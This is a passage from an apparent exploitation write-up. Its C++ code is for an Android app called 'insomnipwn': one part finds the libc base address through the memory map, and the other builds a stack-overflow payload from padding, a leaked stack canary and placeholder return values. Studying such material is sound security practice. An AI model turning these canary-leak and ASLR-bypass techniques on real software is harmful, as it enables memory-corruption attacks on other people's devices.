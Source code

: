 ```c++
            line_len = strlen(line);
        if(line_len > 0 && line[line_len-1] == '\n')
            line[--line_len] = '\0';
        if(ends_with(line, "/libc.so")) {
            void *addr_start, *addr_end;
            sscanf(line, "%p-%p", &addr_start, &addr_end);
            libc_base = reinterpret_cast<uint64_t>(addr_start);
            break;
        }
    }
    fclose(fp);
    if(line)
        free(line);

    return libc_base;
}
```

Let's try out our payload so far:

```c++
// cpp/main.cpp
template<typename T>
static void write_buf(void *buf, size_t *len, T val) {
    char *cptr = reinterpret_cast<char *>(buf);
    memcpy(cptr+*len, &val, sizeof(val));
    *len += sizeof(val);
}
#define write_u8(buf, len, val) write_buf((buf), (len), (uint8_t)(val))
#define write_u64(buf, len, val) write_buf((buf), (len), (uint64_t)(val))

extern "C"
JNIEXPORT jbyteArray JNICALL
Java_com_example_insomnipwn_MainActivity_buildPayload(JNIEnv *env, jobject thiz) {
    uint64_t canary = canaryLeaker();
    uint64_t libc_base = libcLeaker();
    ALOGI("canary= 0x%llx", canary);
    ALOGI("libc base= 0x%llx", libc_base);
    
    char *payload = static_cast<char *>(calloc(0x1000, sizeof(char)));
    size_t payload_len = 0;
    for(int i=0; i<56; i++) {
        write_u8(payload, &payload_len, 0x41); //padding
    }
    write_u64(payload, &payload_len, canary);
    write_u64(payload, &payload_len, 0x4242424242424242); //rbp
    write_u64(payload, &payload_len, 0x4343434343434343); //pc

    jbyteArray res = env->NewByteArray(payload_len);
    env->SetByteArrayRegion(res, 0, payload_len, reinterpret_cast<const jbyte *>(payload));
    return res;
}
```
